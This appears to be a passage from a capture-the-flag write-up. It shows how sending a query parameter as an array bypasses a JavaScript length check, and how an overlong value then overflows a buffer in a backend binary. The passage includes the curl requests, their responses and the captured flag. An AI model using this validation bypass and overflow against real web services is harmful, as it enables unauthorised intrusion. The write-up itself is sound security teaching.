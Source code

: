 ![](/images/length-check.png)

Notice the difference!!

So, if the parameter is passed as an array rather a string, that would bypass the length check. And same time the array will be treated as a string by JS and it is passed as an argument to a binary.

<br>

#### Exploitation

The request to get the primes count - 
```
curl https://gets.sdc.tf/prime?n=1000
```
```
There are exactly 192 primes under 1000
```
Trying larger number (more than 8 digits) as input -
```
curl https://gets.sdc.tf/prime?n=123456789
```
```
Requested n too large!
```
Send the same number as an array - 
```
curl https://gets.sdc.tf/prime?n[]=123456789
```
```
number malformed
```
Cool. We didn't hit the check now. But the binary doesn't accept this number.

As mentioned in the description, about `memory issues`, an ideal thought would be `memory corruption`, with a hypothesis, may be length of input is not checked in the binary but only has been checked in the JS. 

With this in mind, trying a larger number to overflow the buffer may cause a `Segmentation Fault`.

Trying larger input - 
```
curl https://gets.sdc.tf/prime?n[]=12345678955555555555555555
```
```
buffer overflow! sdctf{B3$T_0f-b0TH_w0rLds}
```

Bingo!. We got the flag.

Wait, what ??
